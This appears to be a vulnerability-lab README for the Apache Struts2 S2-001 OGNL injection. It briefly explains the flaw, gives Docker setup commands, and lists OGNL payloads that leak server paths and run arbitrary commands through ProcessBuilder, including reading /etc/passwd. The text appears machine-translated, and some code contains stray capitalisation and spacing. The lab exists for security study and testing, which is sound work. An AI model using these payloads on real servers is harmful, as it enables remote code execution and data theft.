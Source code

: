 # S2-001 Remote Code Execution Vulnerability

## Principle

Reference [http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/2016/05/06/review-struts2-remote -command-execution-vulnerabilities.html)

> The vulnerability is that when the user submits the form data and the validation fails, the backend parses the parameter values ​​previously submitted by the user with the OGNL expression %{value} and repopulates the corresponding form data. For example, the registration or login page, the submitting failure backend will generally return the previously submitted data by default. Since the backend uses %{value} to perform an OGNL expression parsing on the submitted data, you can directly construct Payload for command execution.

## surroundings

Run the following command to start the s2-001 test environment.

```
Docker-compose build
Docker-compose up -d
```

## POC && EXP

Get the tomcat execution path:

```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

Get the web path:

```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req .getRealPath('/')),#response.flush(),#response.close()}
```

Execute any command (command plus parameters: `new java.lang.String[]{"cat","/etc/passwd"}`):

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"pwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c =new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context. Get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f. getWriter().close()}
```

![](1.jpeg)